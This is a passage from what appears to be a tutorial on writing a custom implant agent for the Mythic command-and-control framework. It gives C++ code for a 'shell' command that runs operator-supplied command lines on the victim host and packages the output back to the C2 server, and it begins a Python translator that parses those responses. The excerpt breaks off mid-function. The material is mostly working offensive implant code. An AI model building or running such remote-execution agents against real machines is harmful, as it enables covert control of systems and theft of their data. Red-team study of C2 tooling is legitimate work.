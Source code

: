 
## The Shell Command

Finally, we need to implement the Shell command for the agent, the translator, and Mythic.

### The Shell Command - Agent side

The shell command from the agent (executeShell) receives a Parser from which it will recover its arguments.
In our case, the only argument is the command line it needs to execute.

Since the output has to respect the format we saw in section [Post Response](#post-response), we have to carefully craft our response Package : 
{% highlight C++ %}


BOOL executeShell(PParser arguments)
{
	SIZE_T uuidLength = 36;
	PCHAR taskUuid = getString(arguments, &uuidLength);
	UINT32 nbArg = getInt32(arguments);
	SIZE_T size = 0;
	PCHAR cmd = getString(arguments, &size);
	cmd = (PCHAR)LocalReAlloc(cmd, size + 1, LMEM_MOVEABLE | LMEM_ZEROINIT);

	FILE* fp;
	CHAR path[1035];

	// Create the response package
	PPackage responseTask = newPackage(POST_RESPONSE, TRUE); // Create PostResponse package and init with agent UUID
	addString(responseTask, taskUuid, FALSE); // add the task UUID

	// Temporary output to store the result
	PPackage output = newPackage(0, FALSE);

	fp = _popen(cmd, "rb");

	while (fgets(path, sizeof(path), fp) != nullptr)
		addString(output, path, FALSE);
	
	addBytes(responseTask, (PBYTE)output->buffer, output->length, TRUE); // Add the command output
	_pclose(fp);
	Parser* ResponseParser = sendPackage(responseTask);
	return TRUE;
}

{% endhighlight %}

### The Shell Command - Translator side

No surprises here : we just parse the response to recover the output of the command and put it in a json.

{% highlight python %}
# Agent -> C2
async def translate_from_c2_format(self, inputMsg: TrCustomMessageToMythicC2FormatMessage) -> TrCustomMessageToMythicC2FormatMessageResponse:
    response = TrCustomMessageToMythicC2FormatMessageResponse(Success=True)
    data = inputMsg.Message
    if data[0] == commands["post_response"]["hex_code"]: #POSTREPONSE
        response.Message = postResponse(data[1:])
    return response


def postResponse(data):
    
    resTaks = []